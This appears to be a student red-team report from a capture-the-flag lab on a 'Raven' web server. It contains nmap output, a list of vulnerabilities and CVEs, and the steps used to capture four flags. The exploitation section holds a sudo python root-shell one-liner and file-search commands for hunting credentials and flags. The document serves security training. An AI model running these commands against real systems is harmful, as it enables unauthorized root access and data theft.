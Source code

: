 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... # $ nmap -sV -A 192.168.1.90/24
  # Insert scan output Nmap scan report for 192.168.1.110
Host is up (0.00082s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42312/tcp   status
|   100024  1          49348/tcp6  status
|   100024  1          54108/udp   status
|_  100024  1          57255/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h39m59s, deviation: 6h21m02s, median: 0s
|_nbstat: NetBIOS name: TARGET1, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.14-Debian)
|   Computer name: raven
|   NetBIOS computer name: TARGET1\x00
|   Domain name: local
|   FQDN: raven.local
|_  System time: 2021-03-28T04:00:57+11:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-07T17:00:57
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.82 ms 192.168.1.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 7 10:00:57 2021 -- 1 IP address (1 host up) scanned in 13.79 seconds

```

This scan identifies the services below as potential points of entry:
- Target 1
  - List of
  - Exposed Services

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._
OpenSSH v6.7p1 22/tcp
Apache v2.4.10 80/tcp
Samba v4.2.14 445/tcp, 139/tcp

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._
Target 1
Misconfiguration of steven user to run python as sudo
Misconfiguration of michael user with password the same as his name
OpenSSH configured with weak authentication, password only.
22/tcp was not filtered, accessible publicly.
CVE-2017-7494 - Samba exec code vulnerability - 10.0 severity
CVE-2017-3167 - Apache authentication bypass vulnerability - 7.5 severity
Misconfiguration of Website with sensitive data publicly available in source code.


### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Sensitive data publicly available
      - Used the web browser's console to view source code
      - Initially this flag was found with grep once logged in via SSH as any user
      - grep -ER flag /var/www/html/

      - 
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Weak SSH authentication
      - Once connected via SSH as any user, the flag could be found with a search
      - find / -type f -iname "flag?.txt" -exec cat {} \; 2>/dev/null
  
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Misconfiguration of steven user to run python with root permissions
       - sudo python -c 'import os; os.system("/bin/sh")'
         - Once the permissions were escalated, wp-config.php file was readable, file includes the SQL database login information in clear text.
         - With the login information for the database, it could be queried for flags 3 and 4

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
   - **Exploit Used**
     - Same method as flag 3, in the same database
        $ whoami
        steven
        $ sudo python -c 'import os; os.system("/bin/sh")'
        # whoami
        root
        #   